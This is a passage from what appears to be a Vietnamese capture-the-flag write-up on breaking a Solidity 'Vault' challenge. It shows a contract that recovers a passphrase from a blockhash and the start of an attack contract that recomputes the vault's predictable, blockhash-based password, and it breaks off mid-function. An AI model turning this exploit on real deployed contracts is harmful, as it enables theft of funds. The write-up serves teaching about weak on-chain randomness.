 Sau đó có thể chạy nó thông qua cùng một logic đã thấy trong `constructor()` để tìm ra passphrase.

Đây là chương trình sử dụng trong RemixIDE:

```
pragma solidity ^0.8.17;
contract findPassphrase {
bytes32 public passphrase = bytes32(keccak256(abi.encodePacked(uint256(blockhash(1702814443)))));
}
```

Từ đây, chỉ cần compile contract và deploy nó, sẽ thấy passphrase:

![alt text](image-2.png)

Bây giờ chỉ cần tạo một smart contract sử dụng passphrase này để mở khóa vault.

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;// Importing the Vault contract to interact with it.
import "./Vault.sol";
contract attack {
    // Storing the instance of the Vault contract we want to interact with.
    Vault public vault;
    
    // Storing the passphrase for unlocking the vault.
    bytes32 public passphrase;
    
    // Nonce used for key generation.
    uint256 nonce;
    // Constructor that sets the address of the Vault and passphrase.
    constructor(address _vault, bytes32 _passphrase) {
        vault = Vault(_vault);
        passphrase = _passphrase;
    }
    // Function for generating a 'magic' password, used for unlocking the vault.
    function _magicPassword() private returns (bytes8) {
        // Generating two keys with different reductors.
        uint256 _key1 = _generateKey((block.timestamp % 2) + 1);
        uint128 _key2 = uint128(_generateKey(2));
        // XORing the passphrase with _key1, and then XORing that result with _key2.
        bytes8 _secret = bytes8(bytes16(uint128(uint128(bytes16(bytes32(uint256(uint256(passphrase) ^ _key1)))) ^ _key2)));
        // Returning the secret after some bit manipulation.
        return ((_secret >> 32) | (_secret << 16));
    }
    // Function to generate a key, uses nonce and blockhash.
    function _generateKey(uint256 _reductor) private returns (uint256 ret) {
        // Creating a key based on the hash of a previous block and the current nonce.
        ret = uint256(keccak256(abi.encodePacked(uint256(blockhash(block.number - _reductor)) + nonce)));
```